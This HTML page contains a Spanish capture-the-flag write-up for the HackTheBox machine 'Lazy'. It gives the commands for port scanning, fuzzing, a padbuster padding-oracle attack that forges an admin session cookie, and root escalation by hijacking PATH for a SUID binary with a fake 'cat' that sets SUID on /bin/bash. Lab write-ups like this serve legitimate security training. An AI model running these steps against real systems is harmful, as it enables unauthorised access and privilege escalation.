

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Lazy</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Lazy" de HackTheBox

Caracteristicas:

- Linux
- Padding oracle attack (padbuster)
- Bit fliper attack (Burp suite)
- Obtain the admin users cookie
- Abusing SUID binaries
- PATH Hijacking (privilege escalation)
- External Enumeration
- Apache
- PHP
- Penetration Tester Level 3
- Weak Authentication
- A01:2021-Broken Access Control
- SUID Exploitation
- Authentication

Util en:

- eWPT
- OSWE
- OSCP

        IP 10.10.10.18

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.18 -oG allPorts

Puertos:

22 ssh

80 http

-  sudo nmap -sCV -p22,80 10.10.10.18 -oN targeted

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))

Buscamos el codename (launchpad):

Codename: Ubuntu Trusty  

Hacemos un whatweb 

- whatweb http://10.10.10.18

http://10.10.10.18 [200 OK] Apache[2.4.7], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.18], PHP[5.5.9-1ubuntu4.21], 
Title[CompanyDev], X-Powered-By[PHP/5.5.9-1ubuntu4.21]

Abrimos la pagina:



tenemos login, register. Probamos con credenciales tipicos, con inyecciones sql simples y nada asi que vamos a registrarnos.
en este punto vamos a fuzzear.

- sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.18/FUZZ.php 

y no nos devolvio nada, asi que intentaremos ver la cookie de session, inspeccionar elemento y se puede ver es una coockie pequeña que esta en cifrado cbc

usaremos padbuster para ataque de padding oracle attack

- padbuster http://10.10.10.18/index.php 'rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w' 8 -cookies 'auth=rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w'

nos devolvio:

** Finished ***

[+] Decrypted value (ASCII): user=kar

[+] Decrypted value (HEX): 757365723D6B61720808080808080808

[+] Decrypted value (Base64): dXNlcj1rYXIICAgICAgICA==

otra forma de saber si se esta empleando cbc, es abrir burpsuite configuramos el proxy para tramitar la consulta recargamos la pagina, la mandamos al repeater y
modificamos la cookie, hacemos send y nos devuelve invalid padding asi que esto nos hace pensar en padding oracle attack.
pero bueno tenemos la coockie. Lanzamos:

- padbuster http://10.10.10.18/index.php 'rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w' 8 -cookies 'auth=rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w' -plaintext "user=admin"

** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA

la ponemos en la seccion de login, somos admin y vemos que hay un mensaje que redirecciona a una key ssh tenemos una clave privada. 

- ssh -i id_rsa mitsos@10.10.10.18

estamos dentro y tenemos la flag de user. Vemos un archivo backup si hacemos un ls -l vemos que tiene privilegios suid y ssid
es un binario que analizaremos lanzando strings, revisamos las cadenas de caracteres legibles y se puede apreciar que cat esta siendo llamado de forma relativa no absoluta
y a la hora de cear un compilado final si no tiene las rutas absolutas, hace que las podamos secuestrar. Es decir podemos crear nuestro propio archivo cat con la secuencia que queramos 
asi que vamos al directorio tmp, creamos el archivo cat y le damos permisos de ejecucion el path lo podemos retocar de la siguiente forma

- export PATH=/tmp:$PATH

esta es una forma de mostrar el propio contenido de la variable path asi que si mostramos el valor de path se vera nuestro valor agregado.
procedemos a hacer

- nano cat

	chmod u+s /bin/bash

que esto le da el privilegios suid a la bash del systema. Ahora si vemos los privileios actuales de bash son 

- ls -l /bin/bash

	-rwxr-xr-x 1 root root 986672 Oct  7  2014 /bin/bash

tiene privilegios 755 no 455 que es el suid que pretendemos inyectar ahora, ejecutamos backup lanzamos

- bash -p 

y tenemos bash de root buscamos la flag y terminada

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>